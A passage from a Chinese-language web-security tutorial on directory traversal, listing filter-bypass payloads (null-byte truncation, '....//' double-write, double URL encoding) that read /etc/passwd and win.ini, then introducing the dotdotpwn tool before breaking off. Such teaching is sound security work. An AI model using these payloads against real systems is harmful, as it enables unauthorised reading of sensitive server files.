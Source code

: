 

### 绝对路径穿越

使用绝对路径，直接获取文件数据。

```text
payload:
http://www.test.com/index.php?file=/etc/passwd
http://www.test.com/index.php?file=/etc/passwd%00.jpg
```

### 使用双写绕过

应对防御措施将"../"替换为空。

```text
payload：
http://www.test.com/index.php?file=....//imgs/image1.jpg
http://www.test.com/index.php?file=....//....//....//....//windows/win.ini
http://www.test.com/index.php?file=....//....//....//....//windows/win.ini%00.jpg
```

### 加密型传递的参数

`http://www.test.com/index.php?file=aW1hZ2UxLmpwZw==` 参数file的数据采用Base64加密，而攻击中只需要将数据进行相应的解密即可入侵，采用一些常见、规律性的加密方式也是不安全的。

### 编码绕过

采用不同的编码进行过滤型绕过，比如通过对参数进行url编码提交来绕过。 . => %2e / => %2f % => %25(双重编码) 注意：服务器会先进行url解码，再加上get协议本身会进行一次url解码，所以进行两次url编码

### 目录限定绕过

有些web软件通过限定目录权限来分离，攻击者可以通过某些特定的符号来绕过。 比如：根目录"/"被限定了权限，但是可以通过"~"来进入根目录下的目录。

### 绕过文件后缀过滤，截断上传

当程序系统设置了后缀名检测的时候，可以通过"%00"截断来绕过。 比如：`../windows/win.ini%00.jpg`等价于`../windows/win.ini`

在类Unix的系统中也可以使用Url编码的换行符`%0a`，也可以尝试`%20`。

## 五、如何发现目录遍历漏洞

在 Kali Linux 中，**完全自动化检测并利用目录遍历漏洞的专项工具**较少（此类操作通常需结合手动验证），但以下工具能实现**检测+半自动化利用**，适用于快速验证和漏洞利用演示：

### **1. dotdotpwn**  
• **定位**：专攻目录遍历漏洞的自动化工具，支持检测和利用。  
• **功能**：  
  • 自动遍历路径（如 `../../etc/passwd`）并检测响应。  
  • 支持 HTTP、FTP、TFTP 协议。  
  • 可生成报告并尝试下载敏感文件。  
• **使用命令**：  
